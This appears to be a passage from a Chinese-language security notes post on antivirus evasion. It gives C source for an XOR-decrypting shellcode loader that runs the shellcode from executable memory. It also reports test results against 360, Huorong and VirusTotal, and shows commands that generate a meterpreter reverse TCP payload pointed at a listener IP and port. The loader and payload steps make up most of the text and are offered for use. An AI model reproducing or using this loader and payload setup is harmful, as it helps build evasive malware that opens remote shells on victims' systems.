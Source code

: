 ```c
/*
Author: Arno0x0x, Twitter: @Arno0x0x
*/

// 删除#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char **argv) {

    // Encrypted shellcode and cipher key obtained from shellcode_encoder.py
    char encryptedShellcode[] = "";
    char key[] = "tidesec";
    char cipherType[] = "xor";

    // Char array to host the deciphered shellcode
    char shellcode[sizeof encryptedShellcode];


    // XOR decoding stub using the key defined above must be the same as the encoding key
    int j = 0;
    for (int i = 0; i < sizeof encryptedShellcode; i++) {
        if (j == sizeof key - 1) j = 0;

        shellcode[i] = encryptedShellcode[i] ^ key[j];
        j++;
    }

    // Allocating memory with EXECUTE writes
    void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copying deciphered shellcode into memory as a function
    memcpy(exec, shellcode, sizeof shellcode);

    // Call the shellcode
    ((void(*)())exec)();
}
```

vs2019编译执行，关闭杀软，msf中可正常上线：

![image-20220530145307544](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301453694.png)

打开杀软，360和火绒均可查杀，其中360结果为“具有木马特征程序”（原po火绒静态可查杀但是行为检测没报警，360杀毒和卫士没有反应，直接上线）。

virustotal.com上查杀率为21/69（原po为15/71）。

360：

![image-20220530145415574](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301454631.png)

VT：


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate